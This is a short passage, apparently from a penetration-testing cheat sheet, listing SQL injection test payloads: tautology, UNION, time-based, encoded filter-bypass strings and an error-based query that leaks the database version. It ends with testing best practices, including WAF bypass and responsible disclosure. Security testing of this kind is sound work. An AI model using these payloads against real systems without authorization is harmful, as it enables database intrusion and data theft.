 ### Input Validation
```sql
# Test filters
' OR 1=1--
' UNION SELECT NULL--
' AND SLEEP(5)--

# Test encoding
%27%20OR%201%3D1%2D%2D
0x27206f7220313d312d2d
```

### Error Handling
```sql
# Test error messages
' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT(VERSION(),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.TABLES GROUP BY x)a)--
```

## Best Practices

1. **Always test in isolated environment** first
2. **Use appropriate tools** for the target
3. **Document all findings** with screenshots
4. **Follow responsible disclosure** procedures
5. **Test for WAF bypass** techniques
6. **Verify injection points** before exploitation
7. **Use time delays** for blind injection testing
8. **Monitor response times** for detection 